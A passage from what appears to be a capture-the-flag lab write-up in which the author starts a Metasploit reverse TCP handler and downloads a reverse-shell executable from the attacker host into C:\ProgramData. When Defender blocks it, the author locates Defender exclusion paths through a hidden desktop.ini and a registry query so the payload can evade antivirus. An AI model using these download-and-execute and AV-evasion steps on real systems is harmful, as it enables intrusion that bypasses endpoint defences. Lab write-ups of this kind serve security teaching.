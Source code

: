 ```

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:4444

```

#### Upload and Execution - Fail

I’ll use a Python webserver to host the executable, and fetch it into `C:\ProgramData` with `wget`:

```

PS C:\programdata> wget 10.10.14.6/rev.exe -outfile r.exe

```

Once it’s there, I’ll run it:

```

PS C:\programdata> .\r.exe
Program 'r.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 
    + FullyQualifiedErrorId : NativeCommandFailed 

```

It fails because of AV.

#### Defender Bypass

`C:\Utils` looks empty, but running with `-force` shows a single hidden file:

```

PS C:\Utils> ls -force

    Directory: C:\Utils

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-h--        12/21/2021   6:41 PM            148 desktop.ini
 
PS C:\Utils> 
cat .\desktop.ini
[.ShellClassInfo]
InfoTip=Directory for Testing Files without Defender

```

The registry confirms this:

```

PS C:\Utils> 
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
    C:\Utils    REG_DWORD    0x0
    C:\Windows\System32    REG_DWORD    0x0

```
